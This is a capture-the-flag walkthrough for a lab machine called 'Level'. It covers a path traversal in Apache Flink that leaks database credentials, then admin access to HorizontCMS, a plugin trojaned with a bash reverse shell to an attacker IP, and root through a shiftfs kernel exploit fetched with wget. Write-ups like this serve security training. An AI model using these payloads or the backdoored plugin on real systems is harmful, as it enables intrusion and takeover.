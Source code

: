 # Level

```
# nmap -sCV -p- level.htb
Nmap scan report for level.htb (10.129.95.161)
Host is up (0.40s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE          VERSION
80/tcp   open  ssl/http?
8081/tcp open  blackice-icecap?
```

### User flag

Apache Flink on port 8081 is vulnerable to path traversal. Metasploit has a module for it. We can read the .env file in the webroot:
```
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > run

[*] Downloading /var/www/html/.env ...
[+] Downloaded /var/www/html/.env (125 bytes)
[+] File /var/www/html/.env saved in: /home/wil/.msf4/loot/20210727012858_default_10.129.173.192_apache.flink.job_666566.txt                                                                                        
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


$ cat /home/wil/.msf4/loot/20210727012858_default_10.129.173.192_apache.flink.job_666566.txt                                                              
DB_HOST=127.0.0.1
DB_CONNECTION=mysql
DB_USERNAME=hcms
DB_PASSWORD=N>2sM4^R_j>g)cfe
DB_DATABASE=hcms
HCMS_ADMIN_PREFIX=admin
```
These credentials are valid on port 80 on HorizontCMS:
`admin:N>2sM4^R_j>g)cfe`

![Successfully login as admin](../img/horrizon_admin_login.png "Successfully login as admin")

With admin privileges we can add a malicous plugin, here we used a modified [GoogleMaps](https://github.com/ttimot24/GoogleMaps) plugin with a reverse shell: 

```bash
$ cat messages.php 
<?php 

$shell = exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.27/9000 0>&1'");

return [
        'successfully_added_location' => $shell,//'Location added succesfully!',
        'successfully_deleted_location' => 'Location deleted succesfully!',
        'successfully_set_center' => 'Location is successfully set as map center!'
];
```
Install the plugin in the following menus: `Themes & Apps / Plugin / Upload new plugin`
Install and activate it
Click on `Google Maps (top menu) / Add location` / Set arbitrary content in fields then save.

```bash
$ nc -nvlp 9000
Listening on [0.0.0.0] (family 2, port 9000)
Connection from 10.129.173.192 60640 received!
bash: cannot set terminal process group (1038): Inappropriate ioctl for device
bash: no job control in this shell
albert@level:/var/www/html$
albert@level:/home/albert$ cat user.txt
HTB{0utd4t3d_cms_1s_n0_g00d}
```

### Root flag

By shorty searching for privilege escalation paths, we can notice the operating system is vulnerable to two consecutive LPE (Local Privilege Escalation) vulnerabilities:

* A double free vulnerability in Ubuntu shiftfs driver ([CVE-2021-3492](https://www.synacktiv.com/publications/exploitation-of-a-double-free-vulnerability-in-ubuntu-shiftfs-driver-cve-2021-3492.html)), found by our team mate VDehors and submitted to [Pwn2Own Vancouver 2021](https://twitter.com/thezdi/status/1380233495851712512).
* Ubuntu OverlayFS LPE ([CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)).
```
albert@level$ uname -a
Linux level 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
      
albert@level$  cat /etc/os-release 
NAME="Ubuntu"
VERSION="20.04.1 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.1 LTS"
VERSION_ID="20.04"
[...]
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal

albert@level$ /sbin/sysctl -n 'kernel.unprivileged_userns_clone'
1
```
As the [exploit](https://github.com/synacktiv/CVE-2021-3492/tree/master/exploit) written by Vdehors for his vulnerability CVE-2021-3492 was only targetting Linux kernel versions 5.8, he slightly modified his exploit in order to also support Linux kernel versions 5.4. In the initial exploit, the synchronization between kernel and userspace was done using a new feature of userfaultfd called write-protect. This feature is not present in kernel versions 5.4 so this part of the exploit has been replaced with the legacy userfaultfd page faults. To be able to preempt the kernel for each `copy_to_user()`, the userland structure is placed on two different pages and these pages are untouched to trigger the *userfaultfd* wakeup.

**Note**: the exploit for Linux kernels 5.4 has been added by Vdehors on the [Github repository](https://github.com/synacktiv/CVE-2021-3492/blob/master/exploit/main_5.4.c).

Finally, we can use his exploit to solve the box:
```
albert@level:/tmp/foo$ wget "10.10.14.65:8080/exploit" 
albert@level:/tmp/foo$ mkdir symbols
albert@level:/tmp/foo/$ wget "10.10.14.65:8080/System.map-5.4.0-48-generic" -O symbols/System.map-5.4.0-48-generic
albert@level:/tmp/foo$ chmod +x exploit 
albert@level:/tmp/foo$ ./exploit 
################################################
#                EXPLOIT SETUP                 #
################################################
Kernel version 5.4.0-48-generic
0xffffffff81085460 set_memory_x
0xffffffff810aba30 proc_doulongvec_minmax
0xffffffff810cdb40 commit_creds
0xffffffff810cdec0 prepare_kernel_cred
0xffffffff819f7dc0 devinet_sysctl_forward
0xffffffff82654040 debug_table
Pinning on CPU 0
Creating new USERNS
Configuring UID/GID map for user 1000/1000
Creating new MOUNTNS
Mounting tmpfs on d1
Mounting shiftfs on d2
Creating shiftfs file
Shiftfs FD : 4
Remaped 1 page at 0x100000
Remaped 1 page at 0x101000
Allocated 2 pages at 0x100000 (ret:0x7f9a406d1740)
Allocated 2 storage pages at 0x55874bb1b000 (ret:0)
UFFD FD: 5
Registering new mapping watch = 0
Registering new mapping watch = 0
################################################
#           PRIMITIVES STABILISATION           #
################################################
Triggering the vulnerability...
UFFD poll returned
WP Fault handling 1
Recreate mapping for page 1
Backuping page data 1
Unmap page 1
Remaped 1 page at 0x101000
Registering new mapping watch = 0
Unblock page 0
[...]
Entering NET namespace...
Namespace NET fd = 6
Setns returned 0
Leaking payload address...
Table is at ffff8ac12fa1c008
Dumping global sysctl...
global_sysctl_victim[0] = 0xffffffff87b5f238
[...]
global_sysctl_victim[7] = 0x0000000000000000
Patching global sysctl...
global_sysctl_victim[0] = 0xffffffff87b5f238
[...]
global_sysctl_victim[7] = 0x0000000000000000
################################################
#                 SYSTEM REPAIR                #
################################################
Checking R/W primitives
Current header is 000000000000ffff
Restored header is ffff8ac136194000
Restoring global sysctl...
################################################
#              SHELLCODE INJECTION             #
################################################
Setting buffer to RWX
Writting shellcode at ffff8ac12fa1cf08
Writting prepare_kernel_cred at ffff8ac12fa1cef8
Writting commit_cred at ffff8ac12fa1cef0
Executing shellcode...
################################################
#                 YOU ARE ROOT                 #
################################################
root@level:/tmp/foo# id
uid=0(root) gid=0(root) groups=0(root)

root@level:/tmp/foo# cat /root/root.txt 
HTB{br0k3n_st0r4g3}
```
